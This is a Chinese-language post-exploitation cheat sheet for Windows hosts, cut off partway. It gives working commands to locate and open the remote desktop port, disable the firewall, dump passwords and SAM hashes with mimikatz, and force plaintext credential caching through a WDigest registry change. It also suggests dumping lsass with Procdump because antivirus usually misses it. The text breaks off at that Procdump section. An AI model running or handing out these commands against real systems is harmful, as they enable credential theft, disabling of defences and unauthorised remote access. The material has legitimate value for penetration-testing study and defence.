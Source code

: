 如果端口被更改

`tasklist /svc`。
查看svchost有不有termservice服务,有的话记住pid
然后`netstat -ano`找到pid对应的端口就行了


如果系统未配置过远程桌面服务，第一次开启时还需要添加防火墙规则，允许 3389 端口，命令如下:
```
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
```

关闭防火墙

`netsh firewall set opmode mode=disable`


# 0x04 抓取管理员密码
## 1、mimikatz_trunk工具
### mimikatz_trunk工具抓取密码

```
privilege::debug    # 提升权限
sekurlsa::logonpasswords   #获取密码
```

### 抓取密码为空

当系统为**win10**或**2012R2**以上时，默认在内存缓存中禁止保存明文密码，
此时可以通过修改注册表的方式抓取明文，但需要用户**重新登录**后才能成功抓取。

```
reg add hklm\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

当我们不需要存储明文密码的时候，我们可以将上述命令中的`REG_DWORD`的值修改为`0`即可。

### 导出sam的Hash
还可以利用mimikatz在线导出sam的Hash

```
log res.txt
privilege::debug
token::elevate
lsadump::sam
```
当我们获取到hash值后，我们通过破解hash值来获取明密码，
用hashcat直接跑，字典越大跑出来的几率就越大；


### 配合Procdump抓取密码

首先我们先用procdum这款工具下载lsass进程的内存，
这个工具一般不会被AV查杀的，这款工具也分为32位和64位两个版本。
